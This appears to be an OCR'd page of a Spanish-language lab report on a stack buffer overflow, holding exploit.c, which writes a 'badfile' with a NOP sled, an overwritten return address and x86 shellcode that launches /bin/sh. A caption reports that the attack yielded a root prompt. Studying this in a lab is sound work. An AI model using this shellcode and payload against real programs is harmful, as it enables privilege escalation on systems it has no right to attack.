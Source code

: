 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}[]
/* exploit.c  */

/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[]=
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */ 
    memcpy(buffer + 36, "\x40\xeb\xff\xbf", 4);
    memcpy(buffer + 40, shellcode, sizeof shellcode);

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
\end{lstlisting}

\newpage

Que produce el siguiente output:

\begin{figure}[h!]
    \centering
    \includegraphics[width=0.9\linewidth]{root.png}
    \caption{Ataque efectuado. Se vé el stack modificado y el prompt de root. El highlight es la dirección del shellcode, almacenada en la dirección de la RA.}
    \label{fig:enter-label}
\end{figure}
\end{document}
